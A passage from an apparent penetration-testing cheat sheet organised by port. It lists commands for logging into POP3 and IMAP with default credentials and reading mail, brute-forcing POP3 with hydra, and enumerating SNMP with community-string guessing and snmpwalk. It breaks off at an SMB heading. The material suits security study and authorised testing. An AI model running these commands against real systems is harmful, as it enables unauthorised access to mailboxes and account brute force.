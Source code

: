 ### Exploitation
```bash
# Manual connection
telnet $TARGET 110
USER admin
PASS password
LIST
RETR 1

# Brute force
hydra -l admin -P passwords.txt pop3://$TARGET
```

---

## 📬 Port 143/993 - IMAP
**Service:** Internet Message Access Protocol  
**Common vulns:** Same as POP3

### Exploitation
```bash
nc $TARGET 143
A1 LOGIN admin password
A2 LIST "" "*"
A3 SELECT INBOX
A4 FETCH 1 BODY[]
```

---

## 🔍 Port 161/162 - SNMP
**Service:** Simple Network Management Protocol  
**Common vulns:** Default community strings

### Enumeration
```bash
# Brute community strings
onesixtyone -c community.txt $TARGET

# Walk the MIB tree
snmpwalk -c public -v1 $TARGET
snmp-check $TARGET

# Get specific info
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2  # Running processes
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.6.13.1.3   # Open TCP ports
```

---

## 📂 Port 139/445 - SMB/NetBIOS
**Service:** Server Message Block  
**Common vulns:** Null sessions, EternalBlue, weak shares
